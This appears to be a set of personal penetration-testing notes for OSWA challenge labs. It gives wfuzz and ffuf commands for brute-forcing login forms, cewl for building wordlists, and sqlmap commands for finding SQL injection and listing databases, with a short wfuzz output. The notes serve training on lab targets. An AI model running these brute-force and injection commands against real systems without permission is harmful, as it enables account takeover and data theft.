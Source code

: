 ```bash
kali@kali:~$ export URL="http://offsecwp:80/wp-login.php"

kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://offsecwp/wp-login.php
Total requests: 100000
=====================================================================
ID           Response   Lines    Word       Chars       Payload       
=====================================================================
000000002:   302        0 L      0 W        0 Ch        "password"  
```
#### Ffuf
#ffuf
```bash
┌──(root💀gobots)-[10Nov2024 07:10:04]-[/home/…/SUT/OSWA/challenge_labs/bambi]                                                        
└─# ffuf -w passwords.txt -u http://bambi/dev/index.php -X POST -d 'username=Sam&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'        
```
------
#### Cewl
#cewl
```bash
┌──(root💀gobots)-[03Dec2024 21:19:55]-[/home/…/SUT/OSWA/challenge_labs/bambi]
└─# cewl --write passwords.txt http://bambi
```
------
#### SQLmap
#sqlmap
##### Testing Requests
when finding a `POST` request that is assumed to be vulnerable to `SQL` the first command you would run is this to identify the `SQL` field that is vulnerable as well as what type of `SQL` it is vulnerable to
- **`-r request.txt`**: Points sqlmap to the raw request file.
- **`--batch`**: Automatically answers prompts (useful for automation).
- **`--risk=3`**: Increases the risk level (test more aggressive payloads).
- **`--level=5`**: Increases the level of testing (tests more input points).

if unsure what field to test against - typically takes a very long time, not recommended - faster to test each individual parameter
```sql
sqlmap -r post_req.txt --batch --risk=3 --level=5
```
same but testing individual fields
```bash
┌──(root💀gobots)-[25Nov2024 17:30:01]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]                                          
└─# sqlmap -r post_request.txt -p username --level=3 --risk=3 --batch       
```
if we want to wipe our progress and start fresh on a new target or retest, we need to run `--flush-session` that would look like this
```sql
sqlmap -r request.txt -p username --batch --risk=3 --level=5 --flush-session
```
now we test to identify the databases with the `--dbs` option, now we have the `dbs` `piano_protocol` we can look for the `tables`
```bash
┌──(root💀gobots)-[25Nov2024 17:13:47]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]                                        
└─# sqlmap -r post_req.txt -p username --dbs --batch      
```